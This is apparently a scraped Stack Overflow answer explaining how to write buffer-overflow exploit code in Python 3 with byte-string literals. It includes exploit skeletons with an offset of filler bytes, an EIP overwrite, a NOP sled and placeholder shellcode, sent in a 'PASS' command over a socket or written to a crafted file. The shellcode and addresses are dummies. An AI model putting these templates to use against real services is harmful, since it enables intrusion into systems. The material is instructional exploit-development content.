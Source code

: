 
https://stackoverflow.com/questions/42615124/exploit-development-in-python-3

In Python 3, you want bytes objects instead, which you can creating by using b'...' byte string literals:

# --- SNIP ---
  shellcode =  b""
  shellcode += b"\x8\x4a\x4a"

# --- SNIP ---
  offset = b"A" * 2606
  eip = b"\x43\x62\x4b\x5f"
  nop = b"\x90" * 16
  padding = b"C"
  buff = offset + eip + nop + shellcode + padding * (424 - 351 - 16)

# --- SNIP ---
  bytes_sent = sock.send(b"PASS %s\r\n" % buff)

# --- SNIP ---
  bytes doesn't have a .format() method, but the % formatting operation is still available.

padding = b""
padding += b"A" * 2500
EIP = b"\x24\x22\x89\xab"
shellcode = b"\x1a\x2a\x3a\xbc"
nops = b"\x90" * 20

with open("test.3au", "wb") as f:
    f.write(padding + EIP + nops + shellcode)

# hexdump test.3au
# 0000000 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
# *
# 00009c0 41 41 41 41 24 22 89 ab 90 90 90 90 90 90 90 90
# 00009d0 90 90 90 90 90 90 90 90 90 90 90 90 1a 2a 3a bc
# 00009e0
